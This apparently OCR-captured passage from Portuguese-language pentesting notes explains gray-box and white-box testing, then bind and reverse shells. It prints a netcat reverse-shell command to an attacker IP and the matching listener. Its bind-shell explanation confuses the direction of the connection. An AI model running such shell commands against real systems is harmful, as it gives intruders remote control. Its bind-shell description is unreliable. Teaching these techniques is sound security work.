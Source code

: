 #### Gray Box (Caixa Cinza):

Combina elementos dos testes de Caixa Preta e Caixa Branca. Nele, os testadores possuem um conhecimento parcial da estrutura interna do sistema, como diagramas de arquitetura ou detalhes de API, permitindo uma abordagem direcionada para explorar áreas específicas do software em busca de vulnerabilidades ou problemas.

#### White Box (Caixa Branca):

oferece uma visão detalhada e completa da estrutura interna, design e implementação do sistema. Com acesso total ao código-fonte e arquitetura, os testadores podem identificar vulnerabilidades de segurança, otimizar o desempenho do código e garantir a conformidade com as melhores práticas de desenvolvimento de software. Esses tipos de teste são complementares e contribuem para uma avaliação abrangente da qualidade e segurança do software.

## Bind shells and Reverse Shells

O bind shell aguarda por conexões de entrada em uma porta específica, o reverse shell inicia uma conexão de saída de um sistema comprometido para um sistema controlado pelo invasor. Ambos são usados para fins de exploração e controle remoto em cenários de segurança e hacking.

### Reverse Shells
Reverse shells são uma técnica poderosa no arsenal de um invasor cibernético, permitindo o controle remoto de sistemas comprometidos. Nesse cenário, o invasor estabelece uma conexão de saída do sistema alvo para um servidor controlado pelo invasor. Uma vez que a conexão é estabelecida, o invasor pode enviar comandos para executar atividades maliciosas, como coletar dados, instalar malware ou até mesmo assumir o controle total do sistema comprometido.

Os comandos para criar um reverse shell variam dependendo do sistema operacional do alvo e do tipo de shell disponível. Por exemplo, em sistemas Unix-like, como Linux, o comando nc (netcat) é frequentemente utilizado para criar uma conexão de rede. No sistema alvo, o invasor pode usar o seguinte comando para iniciar o reverse shell e se conectar ao servidor remoto:

 ```shell
nc -e /bin/bash 10.1.2.34 80
```
Isso instrui o sistema alvo a abrir uma conexão com o endereço IP e porta especificados e executar um shell bash interativo. No lado do servidor, o invasor precisa estar ouvindo na porta especificada para receber a conexão reversa. O comando para isso seria:

 ```shell
nc -lvp 80
 ```
### Bind shell

Bind shells são outra técnica de invasão utilizada para estabelecer uma conexão de entrada em um sistema comprometido. Ao contrário dos reverse shells, onde o sistema alvo inicia a conexão de saída, no caso dos bind shells, o invasor inicia a conexão de entrada, aguardando que o sistema comprometido se conecte a ele.

Para criar um bind shell, o invasor configura um servidor para ouvir em uma porta específica e aguardar por conexões de entrada. Quando o sistema comprometido se conecta a essa porta, o invasor ganha acesso ao shell do sistema comprometido.
